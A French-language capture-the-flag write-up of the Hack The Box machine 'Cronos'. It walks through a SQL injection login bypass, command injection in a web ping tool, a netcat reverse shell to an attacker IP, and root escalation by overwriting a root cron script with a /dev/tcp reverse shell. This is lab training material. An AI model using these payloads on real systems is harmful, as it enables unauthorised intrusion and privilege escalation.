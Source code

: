 ```yaml
---
title: "Write-up : Hack The Box - Cronos [MEDIUM]"
date: 2025-06-08T00:00:00+02:00
draft: false
author: "AntoineWHR"
tags: ["HackTheBox", "CTF", "Linux", "SQLi", "Command Injection", "Crontab", "Privilege Escalation"]
categories: ["WriteUps"]
comment:
  enable: true
description: "Solution complète du challenge Hack The Box Cronos, de l'injection SQL à l'élévation de privilèges via crontab."
---
```


<!--more-->

# **Write-up : Hack The Box - Cronos [MEDIUM]**

{{< admonition info "Informations sur la Box" >}}
*   **Nom :** Cronos
*   **Plateforme :** Hack The Box
*   **Difficulté Annoncée :** Medium
*   **Objectif :** Obtenir les flags `user.txt` et `root.txt`.
*   **IP cible :** 10.129.227.211
{{< /admonition >}}

## **Introduction**

Cette box Medium de Hack The Box nous invite à exploiter une application web vulnérable aux injections SQL et de commandes.

## **Phase 1 : Reconnaissance & Énumération**

### **1. Scan des Ports (Nmap)**

Commençons par identifier les services sur la machine cible avec un scan Nmap.

```bash
nmap -sC -sV 10.129.227.211
```

![NMAP](/images/imagescrnos/image-1.png)

{{< admonition note "Résultats Clés du Scan Nmap" >}}
Le scan révèle trois ports ouverts :

*   **Port 22 (SSH) :** OpenSSH 7.2p2 Ubuntu - Service SSH pour l'accès distant
*   **Port 53 (DNS) :** ISC BIND 9.10.3-P4 - Service DNS, parfait pour l'énumération de sous-domaines
*   **Port 80 (HTTP) :** Apache httpd 2.4.18 Ubuntu - Serveur web principal

Le service HTTP sera notre cible principale, et la présence du DNS suggère des sous-domaines à découvrir.
{{< /admonition >}}

### **2. Exploration Web & Énumération de Sous-domaines**

Le site principal ne révèle rien d'intéressant. Let's go énumérer les sous-domaines avec gobuster :

![NMAP](/images/imagescrnos/image-2.png)

```bash
gobuster vhost -u "cronos.htb" -w /usr/share/wfuzz/general/common.txt --append-domain
```


{{< admonition tip "Découverte Cruciale - Sous-domaine Admin" >}}
L'énumération révèle **admin.cronos.htb**. N'oublions pas de l'ajouter dans notre `/etc/hosts`.
{{< /admonition >}}

## **Phase 2 : Exploitation - Injection SQL**

### **Analyse du Panneau d'Administration**

En visitant `admin.cronos.htb`, nous découvrons une page de connexion classique. Après avoir examiné le code source sans succès, testons les vulnérabilités d'injection SQL les plus communes.

### **Bypass d'Authentification SQL**

Tentons une injection SQL classique pour contourner l'authentification :

```sql
admin' -- -
```


![gobuster](/images/imagescrnos/image-3.png)



{{< admonition success "Injection SQL Réussie !" >}}
L'injection SQL fonctionne parfaitement ! Nous accédons au dashboard admin.
{{< /admonition >}}

![sqlmeme](/images/imagescrnos/1_YGBbNkBIEvmiDFGC3dXpDw.jpg)

## **Phase 3 : Exploitation - Injection de Commandes**

### **Analyse du Dashboard**

Le dashboard présente un outil "Net Tool v0.1" permettant d'exécuter des commandes comme traceroute et ping. On dirait qu'on va devoir injecter de la commande par ici ! 

### **Test d'Injection de Commandes**

Testons l'injection de commandes en ajoutant des commandes supplémentaires après une adresse IP valide :

```bash
8.8.8.8; ls
```

La commande s'exécute avec succès ! Nous pouvons maintenant explorer le système :

```bash
8.8.8.8; cat /home/nolis/user.txt
```

{{< admonition success "Flag Utilisateur Obtenu !" >}}
L'injection de commandes fonctionne parfaitement et nous permet de récupérer directement le flag utilisateur depuis `/home/nolis/user.txt`.
{{< /admonition >}}

## **Phase 4 : Obtention d'un Shell Interactif**

### **Configuration du Reverse Shell**

Pour un meilleur contrôle de la machine, établissons un reverse shell. Utilisons un payload classique :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.22 5555 >/tmp/f
```

```bash
nc -lnvp 5555
```

Et exécutons le payload via l'interface web. Nous obtenons un shell en tant qu'utilisateur `www-data`.

![dashboard](/images/imagescrnos/image-4.png)


## **Phase 5 : Élévation de Privilèges - Analyse du Système**

### **Exploration des Privilèges et Processus**

En tant que `www-data`, nos privilèges sont limités. Le nom de la box "Cronos" suggère que l'élévation de privilèges implique les tâches cron.
C'est assez commun à HTB donc vérifions ! 
```bash
cat /etc/crontab
```

![revshell](/images/imagescrnos/image-5.png)


### **Découverte Cruciale - Tâche Cron Root**


{{< admonition warning "Tâche Cron Vulnérable Identifiée !" >}}
BINGO! Le système exécute régulièrement le script `/var/www/laravel/artisan` en tant que root. 
{{< /admonition >}}

## **Phase 6 : Exploitation de la Tâche Cron**

### **Modification du Script Artisan**

Remplaçons le contenu du script `artisan` par un reverse shell qui se connectera à notre machine :

```bash
echo '<?php exec("bash -c '\''bash -i >& /dev/tcp/10.10.14.22/5556 0>&1'\''");' > /var/www/laravel/artisan
```

### **Configuration de l'Écoute**

```bash
# Sur notre machine d'attaque
nc -lnvp 5556
```

### **Attente de l'Exécution Automatique**

Patientons le temps que la tâche cron s'exécute automatiquement (toutes les minutes)....

![waiting](/images/imagescrnos/ba7o0.jpg)

![artisan](/images/imagescrnos/image-6.png)

{{< admonition success "Root Obtenu !" >}}
Le reverse shell s'active et nous obtenons un accès root ! La manipulation de la tâche cron fonctionne parfaitement.
{{< /admonition >}}

### **Récupération du Flag Root**

```bash
id
cat /root/root.txt
```

## **Conclusion**

{{< admonition summary "Résumé de l'Exploitation" >}}
Cette box Cronos est pas mal et nous permet de voir : 

1. **Énumération DNS** 
2. **Injection SQL** 
3. **Injection de commandes** 
4. **Reverse shell** 
5. **Analyse des crontabs** 
6. **Manipulation de fichiers** 

{{< /admonition >}}

Box très accessible pour une "Medium", parfaite pour comprendre l'importance de l'énumération complète et l'exploitation des cronjobs.

![pwn](/images/imagescrnos/image.png)
